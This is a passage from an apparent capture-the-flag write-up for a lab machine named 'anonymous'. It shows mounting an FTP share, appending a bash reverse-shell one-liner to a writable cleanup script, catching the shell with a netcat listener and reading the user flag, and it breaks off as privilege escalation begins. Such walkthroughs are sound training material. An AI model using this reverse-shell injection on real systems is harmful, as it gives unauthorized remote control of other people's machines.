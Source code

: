 ![anonymous](https://media.giphy.com/media/vJc55OQZMOojS/giphy.gif)

---

# Gaining Access: Reverse Shell


First, we will mount the FTP as a file share and edit files using `curlFTPfs`.

![curlFTPfs](/assets/images/05062020-anonymous/anonymous11.png)

add `bash -i >& /dev/tcp/<ip>/<port> 0>&1` in `clean.sh` file.


```bash
#!/bin/bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

>Replace the \<ip\> and \<port> with your ip and port number.

now let's open a Netcat listener using `nc -lvnp <port>`. wait for the `clean.sh` to run so that we can get a reverse shell.

![5 hours later](https://media.giphy.com/media/xUPJPop2o56Sv8p8TS/giphy.gif)

![netcat listener](/assets/images/05062020-anonymous/anonymous13.png)

And we got it.

![we got him gif](https://media.giphy.com/media/iOm1xOSfAtPzmPXJqH/giphy.gif)


The file `user.txt` contains the user flag.

![user flag](/assets/images/05062020-anonymous/anonymous14.png)

---

# Privilege Escalation

`sudo -l` asked for a password. Since we don't know the password we can skip it.

